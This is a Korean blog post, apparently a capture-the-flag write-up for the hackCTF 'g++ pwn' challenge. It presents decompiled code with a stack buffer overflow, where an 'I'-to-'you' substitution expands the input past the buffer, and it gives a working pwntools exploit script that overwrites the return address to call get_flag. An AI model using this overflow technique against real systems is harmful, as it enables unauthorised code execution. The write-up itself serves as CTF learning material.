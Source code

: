 ```yaml
---
layout: post
title:  "[hackCTF]g++ pwn"
date:   2020-02-18
---
```


hackCTF pwnable 12번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vuln();
  return 0;
}
```

## ida - vuln
```cpp
int vuln()
{
  int v0; // ST08_4
  const char * v1; // eax
  char s; // [esp+1Ch] [ebp-3Ch]
  char v4; // [esp+3Ch] [ebp-1Ch]
  char v5; // [esp+40h] [ebp-18h]
  char v6; // [esp+47h] [ebp-11h]
  char v7; // [esp+48h] [ebp-10h]
  char v8; // [esp+4Fh] [ebp-9h]

  printf("Tell me something about yourself: ");
  fgets(&s, 32, edata);
  std::string::operator=(&input, &s);
  std::allocator<char>::allocator(&v6);
  std::string::string(&v5, "you", &v6);
  std::allocator<char>::allocator(&v8);
  std::string::string(&v7, "I", &v8);
  replace((std::string *)&v4, (std::string *)&input, (std::string *)&v7);
  std::string::operator=(&input, &v4, v0, &v5);
  std::string::~string((std::string *)&v4);
  std::string::~string((std::string *)&v7);
  std::allocator<char>::~allocator(&v8);
  std::string::~string((std::string *)&v5);
  std::allocator<char>::~allocator(&v6);
  v1 = (const char * )std::string::c_str((std::string *)&input);
  strcpy(&s, v1); // 취약점
  return printf("So, %s\n", &s);
}
```

## ida - get_flag
```cpp
int get_flag()
{
  return system("cat flag.txt"); // flag 출력
}
```
vuln은 문자열을 입력 받아 I를 you로 치환하여 s에 저장하는 함수이다. get_flag 함수를 실행시키려면 vuln의 ret을 덮어야 한다. ret을 덮기 위해서 0x40byte가 필요하지만 fgets 함수는 32byte밖에 덮을 수 없다. vuln의 특성을 이용하여 I를 you로 치환하면 fgets 함수에서는 I지만 strcpy 함수로 s에 저장할 때는 you로 치환되므로 0x40byte를 덮을 수 있다. 이를 참고하여 payload를 작성하면 된다.

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3011)

#p.recvuntil("yourself: ")

payload = "I"*21 + "A" + p32(0x08048F0D)

p.sendline(payload)

p.interactive()
```

recvuntil() 함수를 사용하면 error가 뜬다. 왜인지는 모르겠다.

## 결과
![1201](https://drive.google.com/uc?id=1KEJsLXVtz5B-mJ6wJ_Iqwx7qOtAYbB4Z)
